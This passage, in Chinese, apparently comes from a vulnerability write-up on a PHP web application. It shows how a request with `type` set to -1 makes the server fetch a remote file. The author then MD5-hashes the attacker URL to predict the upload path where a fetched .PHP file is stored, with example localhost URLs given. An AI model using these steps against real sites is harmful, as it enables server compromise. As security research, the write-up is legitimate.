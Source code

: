 同时修改`type`的值为`-1`后进行发包，观察 HTTP 服务，可以看到这三个地方都触发了远程文件拉取。

![document_image_rId48.png](assets/1703831601-69224be25f2196105f5be37268e90f85.png)

访问 [https://cmd5.com/hash.aspx](https://cmd5.com/hash.aspx) 将 URL`http://localhost:19000/help.PHP` 进行 MD5 编码，得到`749aa9192a0f6ff0ed7c34418e6fe97f`

![document_image_rId50.png](assets/1703831601-ab84e7b0276cf6c60f5b90fccc099968.png)

根据默认文件路径规则构造 URL：  
`http://localhost:45600/uploads/attach/{年份}/{月份}/{日号}/{URL的MD5值}.PHP`  
得到：  
`http://localhost:45600/uploads/attach/2023/09/07/749aa9192a0f6ff0ed7c34418e6fe97f.PHP`

![document_image_rId51.png](assets/1703831601-28c35a58230aea7e706e9d030b8ee05f.png)

